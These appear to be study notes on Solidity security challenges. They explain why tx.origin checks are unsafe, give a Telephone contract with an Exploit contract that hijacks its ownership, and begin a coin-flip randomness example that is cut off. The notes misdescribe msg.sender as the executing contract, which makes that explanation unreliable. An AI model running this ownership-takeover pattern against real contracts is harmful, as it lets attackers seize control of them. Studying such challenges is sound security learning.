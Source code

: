 # DAY 1

# 1.

The issue with tx.origin in smart contracts is that it can lead to security vulnerabilities, such as allowing unauthorized access or manipulation of contracts. This is because tx.origin returns the original sender of the transaction, which can be exploited in certain attack scenarios

tx.origin refers to the original sender of a transaction, while msg.sender refers to the immediate sender of a message within a contract. The key distinction lies in the fact that tx.origin represents the external account that initiated the transaction, whereas msg.sender represents the contract that is executing the code.

If contract X calls Y, and Y calls Z, in Z msg.sender is Y and tx.origin is X.

example // SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }

}

contract Exploit{

    Telephone telephone = Telephone(0x8a4219227eaAf59218a662863696bfbbf3E4aF7A);

    function exploit()public{
    telephone.changeOwner(msg.sender);
    }

}

# 2.

A simple coin flip game where users can guess the outcome of a coin flip.

- Issues,never use blockhash, or any publicly available parameter for randomness in production contracts.
- To solve this quest a separate contract will be used to calculate and call the flip function on behalf of the hacker

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
